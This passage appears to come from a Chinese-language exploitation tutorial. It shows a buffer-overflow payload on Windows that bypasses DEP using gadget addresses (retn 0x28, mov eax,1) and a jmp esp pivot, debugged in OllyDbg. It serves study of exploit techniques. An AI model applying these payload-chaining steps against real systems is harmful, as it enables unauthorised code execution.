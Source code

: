 ![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x014-008.png)

利用一条retn 0x28指令(0x7c974a19), 让esp增大, 保证不会干扰到shellcode
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x014-009.png)

shellcode作如下修改
```
...
"\x90\x90\x90\x90"		# 180 byte
"\x52\xe2\x92\x7c"		# mov eax,1 retn
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x19\x4a\x97\x7c"		# 增大esp
"\x90\x90\x90\x90"		# junk
"\x24\xcd\x93\x7c"		# 关闭DEP代码的起始地址
```

OD附加上去调试, 关闭了DEP后来到这里, 再来一条jmp esp就能跳回栈区
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x014-010.png)